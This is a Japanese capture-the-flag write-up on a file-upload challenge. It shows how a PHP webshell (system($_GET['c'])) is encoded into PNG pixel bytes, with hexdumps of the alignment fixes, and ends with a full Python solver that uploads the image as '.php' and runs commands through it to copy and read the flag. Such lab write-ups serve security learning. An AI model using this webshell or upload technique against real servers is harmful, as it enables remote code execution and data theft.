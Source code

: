   どうやら、RGBAの表示順が違うみたいなので、次のように修正する。
  ```python
  webshell = '<?php system($_GET["c"]);?> '
  webshell = list(webshell.encode())
  pixels = [tuple([webshell[i+2],webshell[i+1],webshell[i],webshell[i+3],]) for i in range(0,len(webshell),4)] + ([(0,0,0)] * (64 * 64))
  pixels = pixels[:64*64]
  ```

  すると、形式の違いからか、若干値がずれてしまっていることがわかる。
  ```
  00004fe0: 00ff 0000 00ff 0000 00ff 0000 00ff 0000  ................
  00004ff0: 00ff 0000 00ff 3c3f 7068 7020 7378 7374  ......<?php sxst
  00005000: 656c 2824 5f46 4554 5b22 6322 5d28 3b3f  el($_FET["c"](;?
  00005010: 3e20 0000 00ff 0000 00ff 0000 00ff 0000  > ..............
  ```

  試行錯誤していたところ、値が入る位置によって、値がずれたりずれなかったりすることがわかった。したがって、スペースなどで位置を調整しながら試行錯誤すると、以下のコードで、
  ```python
  webshell = '<?php   system($_GET["c"]); ?>  '
  webshell = list(webshell.encode())
  pixels = [tuple([webshell[i+2],webshell[i+1],webshell[i],webshell[i+3],]) for i in range(0,len(webshell),4)] + ([(0,0,0)] * (64 * 64))
  pixels = pixels[:64*64]
  ```

  次のような完璧なコードが埋め込まれた。

  ```
  00004fe0: 00ff 0000 00ff 0000 00ff 0000 00ff 0000  ................
  00004ff0: 00ff 0000 00ff 3c3f 7068 7020 2020 7379  ......<?php   sy
  00005000: 7374 656d 2824 5f47 4554 5b22 6322 5d29  stem($_GET["c"])
  00005010: 3b20 3f3e 2020 0000 00ff 0000 00ff 0000  ; ?>  ..........
  ```

あとはwebshellを利用して、`/flag.txt`を`/var/www/html/uploads/`にコピーすることで、ファイルそのものを得ることができた。
### 最終的なコード

```python:solver.py
import requests
import io
from PIL import Image

# URL = "https://9e846721-b13c-46b2-b28f-7383764d4309.x3c.tf:1337/"
URL = "http://localhost:8080/"


webshell = '<?php   system($_GET["c"]); ?>  '
webshell = list(webshell.encode())
pixels = [tuple([webshell[i+2],webshell[i+1],webshell[i],webshell[i+3],]) for i in range(0,len(webshell),4)] + ([(0,0,0)] * (64 * 64))
pixels = pixels[:64*64]

img = Image.new('RGBA', (64, 64), color=(0, 0, 0))
img.putdata(pixels)
buffer = io.BytesIO()
img.save(buffer, format="PNG")
b = buffer.getvalue()
buffer.close()

s = requests.session()
r = s.post(URL + "index.php", files={
    "file": (".php", b)
})
r = s.get(URL + 'uploads/.php?c=cp /flag.txt /var/www/html/uploads/')
r = s.get(URL + 'uploads/flag.txt')
print(r.text)
```